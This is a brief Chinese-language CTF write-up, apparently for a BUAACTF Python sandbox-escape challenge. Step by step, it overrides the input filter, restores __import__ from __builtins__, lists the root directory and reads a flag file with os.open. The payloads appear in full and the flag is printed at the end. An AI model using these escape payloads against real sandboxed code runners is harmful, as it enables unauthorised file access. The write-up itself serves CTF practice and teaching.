 首先先修改过滤函数。
~~~
locals().__setitem__("my_filter",str)
~~~
由于`__import__`被覆盖了，所以要去`builtins`里面找`__import__`
~~~
print(__builtins__.__import__("os").listdir('/'))
~~~
![](images/1.png)
可以恢复`__import__`
~~~
locals().__setitem__('__import__',__builtins__.__import__)
~~~

借用其他的变量来缩短payload
~~~
locals().__setitem__('dir',__import__("os"))
~~~
利用`os.open`来读文件
~~~
print(dir.read(dir.open("/FlAg_1s_H3re",0),100))
~~~
![](images/2.png)
~~~
BUAACTF{IM_54v3d_7H4nk_y0u_mY_frI3Nd}
~~~